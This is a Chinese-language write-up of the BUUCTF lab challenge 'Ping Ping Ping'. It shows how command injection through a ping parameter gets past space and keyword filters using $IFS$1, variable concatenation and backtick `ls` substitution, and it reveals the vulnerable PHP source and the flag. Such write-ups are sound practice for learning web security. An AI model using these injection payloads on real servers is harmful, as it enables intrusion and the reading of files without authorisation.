 # Ping Ping Ping

[题目地址](https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping)

为什么现在一看到ping就联想到命令注入？

我的基础确实不行。来到网站，提示输入get参数ip的值。用常用的符号注入一下。

- http://a5766383-106c-4a74-b321-808c0942c11f.node4.buuoj.cn:81/?ip=1.1.1.1|ls

```
/?ip=
flag.php
index.php
```

cat一下就完事了吗？

- http://a5766383-106c-4a74-b321-808c0942c11f.node4.buuoj.cn:81/?ip=1.1.1.1|cat%20flag.php
    > /?ip= fxck your space!

不给用空格。搜了个[绕过方式](https://uuzdaisuki.com/2020/07/15/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87%E6%96%B9%E5%BC%8F%E6%80%BB%E7%BB%93/)总结，可以用IFS系列绕过。因为{}被过滤了，只能用这种：

- http://a5766383-106c-4a74-b321-808c0942c11f.node4.buuoj.cn:81/?ip=1.1.1.1|cat$IFS$1flag.php
  > /?ip= fxck your flag!

flag也不能用。不能用引号绕过，引号被过滤了，反引号没有被过滤但是也没法绕过。那我先不看了，看index.php有啥总行了吧？

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

绕过的方法在上面的绕过总结里有提到，直接设置shell变量拼接就行了。

- http://a5766383-106c-4a74-b321-808c0942c11f.node4.buuoj.cn:81/?ip=1.1.1.1;a=g;cat$IFS$1fla$a.php
  
```php
/?ip=
<pre>PING 1.1.1.1 (1.1.1.1): 56 data bytes
<?php
$flag = "flag{ca8595ab-a775-49e3-8195-ca2cd2f0c7c3}";
?>
```

注意要检查网页源代码才看得到flag。这种最好理解，官方的wp是用base64，上面的总结里还是有。或者用cat利用反引号输出ls的内容。

- http://a5766383-106c-4a74-b321-808c0942c11f.node4.buuoj.cn:81/?ip=1.1.1.1;a=g;cat$IFS$1`ls`

```php
/?ip=
<pre>PING 1.1.1.1 (1.1.1.1): 56 data bytes
<?php
$flag = "flag{ca8595ab-a775-49e3-8195-ca2cd2f0c7c3}";
?>
/?ip=
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

反引号包裹的字符串会被当作命令执行。做个实验。

```bash
mkdir test
cd test
echo 'a' > test.txt
cat ls
cat `ls`
```

第一个cat报错，因为没有叫ls的文件；然而第二个cat会输出test.txt的文件内容。这是因为ls返回当前目录的文件名，cat根据文件名输出内容。这个命令可以输出当前目录下所有文件的内容。

### Flag
- flag{ca8595ab-a775-49e3-8195-ca2cd2f0c7c3}
